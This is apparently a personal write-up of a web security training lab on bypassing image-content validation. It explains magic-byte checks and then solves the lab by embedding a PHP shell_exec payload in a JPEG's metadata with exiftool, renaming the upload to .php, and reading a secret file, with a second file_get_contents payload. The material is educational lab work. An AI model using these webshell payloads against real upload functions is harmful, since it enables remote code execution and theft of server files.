 ```yaml
---
tags: ["exiftool", "webshell"]
---
```


## Flawed validation of the file's contents

Instead of implicitly trusting the `Content-Type` specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its dimensions. If you try uploading a PHP script, for example, it won't have any dimensions at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly.

Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.

## Challenge

> This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.
> To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.
> You can log in to your own account using the following credentials: `wiener:peter`

--> i used exiftool to add the comment in the image with this command !

```bash
exiftool -comment="<?php echo shell_exec('cat /home/carlos/secret'); ?>" imageShell.jpeg
```

Now upload the image!

--> intercept the request and change the filename with `.php`

![](Attachments/Pastedimage20220125130219.png)

Remember that our answer will start after `6` and end before `y`

and i got this output!

![](Attachments/Pastedimage20220125130328.png)

--> In the other method you can place 2 identifiers or texts to check the password like `START` and `END`

So the payload will be like this :

```php
<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>
```

--> And when you send the above request you can see the secret between 2 texts `START` and `END`
